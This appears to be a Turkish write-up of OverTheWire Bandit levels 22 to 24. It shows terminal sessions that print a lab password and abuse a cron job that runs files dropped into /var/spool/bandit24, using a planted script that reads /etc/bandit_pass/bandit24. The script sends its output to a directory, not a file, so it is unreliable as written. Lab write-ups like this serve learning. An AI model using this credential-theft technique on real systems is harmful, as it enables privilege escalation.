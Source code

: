 ```terminal
bandit22@bandit:/etc/cron.d$ echo I am user bandit23 | md5sum |cut -d ' ' -f 1
8ca319486bfbbc3663ea0fbe81326349
bandit22@bandit:/etc/cron.d$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

![password](https://raw.githubusercontent.com/JohnGkmn/JohnGkmn.github.io/master/css/smashicons.png "jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n")

Bandit Level 23 → Level 24
======
**_ssh bandit23@bandit.labs.overthewire.org -p 2220_** password bir önceki seviyede bulunmuştu.

Hint;
-  create your own first shell-script

```terminal
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done


bandit23@bandit:/etc/cron.d$ mkdir /tmp/yesil01
bandit23@bandit:/tmp/yesil01$ touch yesil.sh
bandit23@bandit:/tmp/yesil01$ chmod 777 yesil.sh
bandit23@bandit:/tmp/yesil01$ vi yesil.sh
bandit23@bandit:/tmp/yesil01$ cat yesil.sh
#!/bin/sh
cat /etc/bandit_pass/bandit24 >> /tmp/yesil01/
bandit23@bandit:/tmp/yesil01$ chmod 777 /tmp/yesil01
bandit23@bandit:/tmp/yesil01$ cp yesil.sh /var/spool/bandit24/
```
